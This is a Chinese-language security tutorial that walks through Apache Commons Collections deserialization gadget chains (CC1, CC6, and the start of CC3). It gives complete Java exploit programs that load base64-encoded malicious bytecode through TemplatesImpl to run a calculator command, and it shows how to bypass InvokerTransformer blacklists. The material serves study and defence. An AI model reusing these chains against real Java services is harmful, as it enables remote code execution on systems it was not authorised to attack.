Java安全之cc3链 前言 我们前面进行了Java的类加载分析，发现最底层是defineClass进行加载。也用两种方式（TemplatesImpl和BCEL）实现了Java的类加载执行恶意类。下面我们来把cc1中的执行命令的方式，改为加载恶意类来执行，进而探讨cc3的实现。
声明：**文章中涉及的内容可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由用户承担全部法律及连带责任，文章作者不承担任何法律及连带责任。
原始的CC1使用TemplatesImpl实现执行命令 回顾一下最开始的cc1的利用链
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 cc1 chain: ObjectInputStream.readObject() AnnotationInvocationHandler.readObject() TransformedMap.decorate() Map(Proxy).entrySet() MapEntry.setValue() TransformedMap.checkSetValue() ChainedTransformer.transform() ConstantTransformer.transform() InvokerTransformer.transform() Method.invoke() Class.getMethod() InvokerTransformer.transform() Method.invoke() Runtime.getRuntime() InvokerTransformer.transform() Method.invoke() Runtime.exec()

这条链子使用的是InvokerTransformer.transform()来实现反射调用runtime执行命令；我们修改成使用TemplatesImpl加载恶意类来实现执行命令
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 package com.garck3h.ccChain3;import org.apache.commons.collections.Transformer;import org.apache.commons.collections.functors.ChainedTransformer;import org.apache.commons.collections.functors.ConstantTransformer;import org.apache.commons.collections.functors.InvokerTransformer;import org.apache.commons.collections.map.TransformedMap;import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;import java.lang.reflect.Field;import java.util.Base64;import java.io.*;import java.lang.annotation.Target;import java.lang.reflect.Constructor;import java.util.HashMap;import java.util.Map;public class cc1 { public static void main (String[] args) throws Exception { byte [] codes = Base64.getDecoder().decode("yv66vgAAADQAMgcAJAoAAQAlCgAHACUKACYAJwgAKAoAJgApBwAqAQAEbWFpbgEAFihbTGphdmEvbGFuZy9TdHJpbmc7KVYBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQASTG9jYWxWYXJpYWJsZVRhYmxlAQAEYXJncwEAE1tMamF2YS9sYW5nL1N0cmluZzsBAAlieXRlQ2xhc3MBACBMY29tL2dhcmNrM2gvY2NDaGFpbjMvQnl0ZUNsYXNzOwEACkV4Y2VwdGlvbnMHACsBAAl0cmFuc2Zvcm0BAHIoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007W0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAAR0aGlzAQAIZG9jdW1lbnQBAC1MY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTsBAAhoYW5kbGVycwEAQltMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwcALAEApihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAAhpdGVyYXRvcgEANUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7AQAHaGFuZGxlcgEAQUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7AQAGPGluaXQ+AQADKClWAQAKU291cmNlRmlsZQEADkJ5dGVDbGFzcy5qYXZhAQAeY29tL2dhcmNrM2gvY2NDaGFpbjMvQnl0ZUNsYXNzDAAgACEHAC0MAC4ALwEAFm9wZW4gLWEgQ2FsY3VsYXRvci5hcHAMADAAMQEAQGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ydW50aW1lL0Fic3RyYWN0VHJhbnNsZXQBABNqYXZhL2lvL0lPRXhjZXB0aW9uAQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL1RyYW5zbGV0RXhjZXB0aW9uAQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7AQAEZXhlYwEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwAhAAEABwAAAAAABAAJAAgACQACAAoAAABBAAIAAgAAAAm7AAFZtwACTLEAAAACAAsAAAAKAAIAAAATAAgAFAAMAAAAFgACAAAACQANAA4AAAAIAAEADwAQAAEAEQAAAAQAAQASAAEAEwAUAAIACgAAAD8AAAADAAAAAbEAAAACAAsAAAAGAAEAAAAXAAwAAAAgAAMAAAABABUAEAAAAAAAAQAWABcAAQAAAAEAGAAZAAIAEQAAAAQAAQAaAAEAEwAbAAIACgAAAEkAAAAEAAAAAbEAAAACAAsAAAAGAAEAAAAaAAwAAAAqAAQAAAABABUAEAAAAAAAAQAWABcAAQAAAAEAHAAdAAIAAAABAB4AHwADABEAAAAEAAEAGgABACAAIQACAAoAAABAAAIAAQAAAA4qtwADuAAEEgW2AAZXsQAAAAIACwAAAA4AAwAAABsABAAcAA0AHQAMAAAADAABAAAADgAVABAAAAARAAAABAABABIAAQAiAAAAAgAj" ); TemplatesImpl templates = new TemplatesImpl (); setFieldValue(templates,"_class" ,null ); setFieldValue(templates,"_name" ,"qqq" ); setFieldValue(templates,"_bytecodes" ,new byte [][]{codes}); setFieldValue(templates,"_tfactory" ,new TransformerFactoryImpl ()); Transformer[] transformers = new Transformer []{ new ConstantTransformer (templates), new InvokerTransformer ("newTransformer" ,null ,null ) }; ChainedTransformer chainedTransformer = new ChainedTransformer (transformers); HashMap<Object,Object> map = new HashMap <>(); map.put("value" ,"value" ); Map<Object,Object> transformedMap=TransformedMap.decorate(map,null ,chainedTransformer); Class c= Class.forName("sun.reflect.annotation.AnnotationInvocationHandler" ); Constructor constructor= c.getDeclaredConstructor(Class.class,Map.class); constructor.setAccessible(true ); Object obj= constructor.newInstance(Target.class,transformedMap); serialize(obj); unserialize(); } public static void serialize (Object obj) throws Exception { ObjectOutputStream outputStream = new ObjectOutputStream ( new FileOutputStream ("ser.bin" )); outputStream.writeObject(obj); outputStream.close(); } public static void unserialize () throws Exception{ ObjectInputStream inputStream = new ObjectInputStream ( new FileInputStream ("ser.bin" )); Object obj = inputStream.readObject(); } public static void setFieldValue (Object obj, String fieldName, Object value) throws Exception { Field field = obj.getClass().getDeclaredField(fieldName); field.setAccessible(true ); field.set(obj, value); } }

ysoserial CC1使用TemplatesImpl实现执行命令 第二条改造后的CC1链，回顾一下其利用链
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 cc1 chain: ObjectInputStream.readObject() AnnotationInvocationHandler.readObject() Map(Proxy).entrySet() AnnotationInvocationHandler.invoke() LazyMap.get() ChainedTransformer.transform() ConstantTransformer.transform() InvokerTransformer.transform() Method.invoke() Class.getMethod() InvokerTransformer.transform() Method.invoke() Runtime.getRuntime() InvokerTransformer.transform() Method.invoke() Runtime.exec()

也是修改成使用TemplatesImpl加载恶意类来实现执行命令
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 package com.garck3h.ccChain3;import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;import java.lang.reflect.Field;import java.util.Base64;import org.apache.commons.collections.Transformer;import org.apache.commons.collections.functors.ChainedTransformer;import org.apache.commons.collections.functors.ConstantTransformer;import org.apache.commons.collections.functors.InvokerTransformer;import org.apache.commons.collections.map.LazyMap;import java.io.FileInputStream;import java.io.FileOutputStream;import java.io.ObjectInputStream;import java.io.ObjectOutputStream;import java.lang.reflect.Constructor;import java.lang.reflect.InvocationHandler;import java.lang.reflect.Proxy;import java.util.HashMap;import java.util.Map;public class cc1_1 { public static void main (String[] args) throws Exception { byte [] codes = Base64.getDecoder().decode("yv66vgAAADQAMgcAJAoAAQAlCgAHACUKACYAJwgAKAoAJgApBwAqAQAEbWFpbgEAFihbTGphdmEvbGFuZy9TdHJpbmc7KVYBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQASTG9jYWxWYXJpYWJsZVRhYmxlAQAEYXJncwEAE1tMamF2YS9sYW5nL1N0cmluZzsBAAlieXRlQ2xhc3MBACBMY29tL2dhcmNrM2gvY2NDaGFpbjMvQnl0ZUNsYXNzOwEACkV4Y2VwdGlvbnMHACsBAAl0cmFuc2Zvcm0BAHIoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007W0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAAR0aGlzAQAIZG9jdW1lbnQBAC1MY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTsBAAhoYW5kbGVycwEAQltMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwcALAEApihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAAhpdGVyYXRvcgEANUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7AQAHaGFuZGxlcgEAQUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7AQAGPGluaXQ+AQADKClWAQAKU291cmNlRmlsZQEADkJ5dGVDbGFzcy5qYXZhAQAeY29tL2dhcmNrM2gvY2NDaGFpbjMvQnl0ZUNsYXNzDAAgACEHAC0MAC4ALwEAFm9wZW4gLWEgQ2FsY3VsYXRvci5hcHAMADAAMQEAQGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ydW50aW1lL0Fic3RyYWN0VHJhbnNsZXQBABNqYXZhL2lvL0lPRXhjZXB0aW9uAQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL1RyYW5zbGV0RXhjZXB0aW9uAQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7AQAEZXhlYwEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwAhAAEABwAAAAAABAAJAAgACQACAAoAAABBAAIAAgAAAAm7AAFZtwACTLEAAAACAAsAAAAKAAIAAAATAAgAFAAMAAAAFgACAAAACQANAA4AAAAIAAEADwAQAAEAEQAAAAQAAQASAAEAEwAUAAIACgAAAD8AAAADAAAAAbEAAAACAAsAAAAGAAEAAAAXAAwAAAAgAAMAAAABABUAEAAAAAAAAQAWABcAAQAAAAEAGAAZAAIAEQAAAAQAAQAaAAEAEwAbAAIACgAAAEkAAAAEAAAAAbEAAAACAAsAAAAGAAEAAAAaAAwAAAAqAAQAAAABABUAEAAAAAAAAQAWABcAAQAAAAEAHAAdAAIAAAABAB4AHwADABEAAAAEAAEAGgABACAAIQACAAoAAABAAAIAAQAAAA4qtwADuAAEEgW2AAZXsQAAAAIACwAAAA4AAwAAABsABAAcAA0AHQAMAAAADAABAAAADgAVABAAAAARAAAABAABABIAAQAiAAAAAgAj" ); TemplatesImpl templates = new TemplatesImpl (); setFieldValue(templates,"_class" ,null ); setFieldValue(templates,"_name" ,"qqq" ); setFieldValue(templates,"_bytecodes" ,new byte [][]{codes}); setFieldValue(templates,"_tfactory" ,new TransformerFactoryImpl ()); Transformer[] transformers = new Transformer []{ new ConstantTransformer (templates), new InvokerTransformer ("newTransformer" ,null ,null ) }; ChainedTransformer chainedTransformer = new ChainedTransformer (transformers); HashMap<Object,Object> map = new HashMap <>(); Map<Object,Object> lazydMap= LazyMap.decorate(map,chainedTransformer); Class c= Class.forName("sun.reflect.annotation.AnnotationInvocationHandler" ); Constructor constructor= c.getDeclaredConstructor(Class.class,Map.class); constructor.setAccessible(true ); InvocationHandler h = (InvocationHandler) constructor.newInstance(Override.class,lazydMap); Map mapProxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(),new Class []{Map.class},h); Object obj= constructor.newInstance(Override.class,mapProxy); serialize(obj); unserialize(); } public static void serialize (Object obj) throws Exception { ObjectOutputStream outputStream = new ObjectOutputStream ( new FileOutputStream ("ser.bin" )); outputStream.writeObject(obj); outputStream.close(); } public static void unserialize () throws Exception{ ObjectInputStream inputStream = new ObjectInputStream ( new FileInputStream ("ser.bin" )); Object obj = inputStream.readObject(); } public static void setFieldValue (Object obj, String fieldName, Object value) throws Exception { Field field = obj.getClass().getDeclaredField(fieldName); field.setAccessible(true ); field.set(obj, value); } }

CC6使用TemplatesImpl实现执行命令 之前的分析了在高版本的jdk中，AnnotationInvocationHandler做了修改，所以需要一条新的链进行绕过，也就是我们分析的cc6，回顾一下它的利用链如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 cc6 chain: java.io.ObjectInputStream.readObject() java.util.HashSet.readObject() java.util.HashMap.put() java.util.HashMap.hash() org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode() org.apache.commons.collections.keyvalue.TiedMapEntry.getValue() org.apache.commons.collections.map.LazyMap.get() org.apache.commons.collections.functors.ChainedTransformer.transform() org.apache.commons.collections.functors.InvokerTransformer.transform() java.lang.reflect.Method.invoke() java.lang.Runtime.exec()
下面是修改为使用TemplatesImpl 加载字节码执行命令
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 package com.garck3h.ccChain3;import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;import org.apache.commons.collections.Transformer;import org.apache.commons.collections.functors.ChainedTransformer;import org.apache.commons.collections.functors.ConstantFactory;import org.apache.commons.collections.functors.ConstantTransformer;import org.apache.commons.collections.functors.InvokerTransformer;import org.apache.commons.collections.keyvalue.TiedMapEntry;import org.apache.commons.collections.map.LazyMap;import java.io.FileInputStream;import java.io.FileOutputStream;import java.io.ObjectInputStream;import java.io.ObjectOutputStream;import java.lang.reflect.Field;import java.util.Base64;import java.util.HashMap;import java.util.Map;public class cc6_1 { public static void main (String[] args) throws Exception { byte [] codes = Base64.getDecoder().decode("yv66vgAAADQAMgcAJAoAAQAlCgAHACUKACYAJwgAKAoAJgApBwAqAQAEbWFpbgEAFihbTGphdmEvbGFuZy9TdHJpbmc7KVYBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQASTG9jYWxWYXJpYWJsZVRhYmxlAQAEYXJncwEAE1tMamF2YS9sYW5nL1N0cmluZzsBAAlieXRlQ2xhc3MBACBMY29tL2dhcmNrM2gvY2NDaGFpbjMvQnl0ZUNsYXNzOwEACkV4Y2VwdGlvbnMHACsBAAl0cmFuc2Zvcm0BAHIoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007W0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAAR0aGlzAQAIZG9jdW1lbnQBAC1MY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTsBAAhoYW5kbGVycwEAQltMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwcALAEApihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAAhpdGVyYXRvcgEANUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7AQAHaGFuZGxlcgEAQUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7AQAGPGluaXQ+AQADKClWAQAKU291cmNlRmlsZQEADkJ5dGVDbGFzcy5qYXZhAQAeY29tL2dhcmNrM2gvY2NDaGFpbjMvQnl0ZUNsYXNzDAAgACEHAC0MAC4ALwEAFm9wZW4gLWEgQ2FsY3VsYXRvci5hcHAMADAAMQEAQGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ydW50aW1lL0Fic3RyYWN0VHJhbnNsZXQBABNqYXZhL2lvL0lPRXhjZXB0aW9uAQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL1RyYW5zbGV0RXhjZXB0aW9uAQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7AQAEZXhlYwEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwAhAAEABwAAAAAABAAJAAgACQACAAoAAABBAAIAAgAAAAm7AAFZtwACTLEAAAACAAsAAAAKAAIAAAATAAgAFAAMAAAAFgACAAAACQANAA4AAAAIAAEADwAQAAEAEQAAAAQAAQASAAEAEwAUAAIACgAAAD8AAAADAAAAAbEAAAACAAsAAAAGAAEAAAAXAAwAAAAgAAMAAAABABUAEAAAAAAAAQAWABcAAQAAAAEAGAAZAAIAEQAAAAQAAQAaAAEAEwAbAAIACgAAAEkAAAAEAAAAAbEAAAACAAsAAAAGAAEAAAAaAAwAAAAqAAQAAAABABUAEAAAAAAAAQAWABcAAQAAAAEAHAAdAAIAAAABAB4AHwADABEAAAAEAAEAGgABACAAIQACAAoAAABAAAIAAQAAAA4qtwADuAAEEgW2AAZXsQAAAAIACwAAAA4AAwAAABsABAAcAA0AHQAMAAAADAABAAAADgAVABAAAAARAAAABAABABIAAQAiAAAAAgAj" ); TemplatesImpl templates = new TemplatesImpl (); setFieldValue(templates,"_class" ,null ); setFieldValue(templates,"_name" ,"qqq" ); setFieldValue(templates,"_bytecodes" ,new byte [][]{codes}); setFieldValue(templates,"_tfactory" ,new TransformerFactoryImpl ()); Transformer[] transformers = new Transformer []{ new ConstantTransformer (templates), new InvokerTransformer ("newTransformer" ,null ,null ) }; ChainedTransformer chainedTransformer = new ChainedTransformer (transformers); HashMap<Object, Object> hashMap = new HashMap <>(); Map<Object, Object> lazyMap = LazyMap.decorate(hashMap, new ConstantFactory (1 )); TiedMapEntry tiedMapEntry = new TiedMapEntry (lazyMap, "qwe" ); HashMap<Object, Object> objcc6 = new HashMap <>(); objcc6.put(tiedMapEntry,"asd" ); lazyMap.remove("qwe" ); Class c = LazyMap.class; Field factoryField = null ; factoryField = c.getDeclaredField("factory" ); factoryField.setAccessible(true ); factoryField.set(lazyMap,chainedTransformer); serialize(objcc6); unserialize(); } public static void serialize (Object obj) throws Exception { ObjectOutputStream outputStream = new ObjectOutputStream ( new FileOutputStream ("cc6.bin" )); outputStream.writeObject(obj); outputStream.close(); } public static void unserialize () throws Exception{ ObjectInputStream inputStream = new ObjectInputStream ( new FileInputStream ("cc6.bin" )); Object obj = inputStream.readObject(); } public static void setFieldValue (Object obj, String fieldName, Object value) throws Exception { Field field = obj.getClass().getDeclaredField(fieldName); field.setAccessible(true ); field.set(obj, value); } }

以上就是cc1和cc6修改了执行命令方式后的利用链
cc3的出现 我们发现上面的cc1和cc6都有一个共同的特点就是都用到了InvokerTransformer；如今在很多防护中早已经把InvokerTransformer放进黑名单，这时我们不得不寻找一个新的利用链进行绕过。
我们知道在TemplatesImpl执行命令中是调用newTransformer来实例化的，我们再看看还有没有其它地方调用它的。
于是在TrAXFilter的构造函数中发现有调用templates.newTransformer()的


那么如果我们可以调用TrAXFilter的构造函数的话，我们也可以执行代码。但是这个类没有继承序列化的接口，我们不能对其进行序列化。
但是在InstantiateTransformer类的transform方法可以调用我们指定类的构造函数。
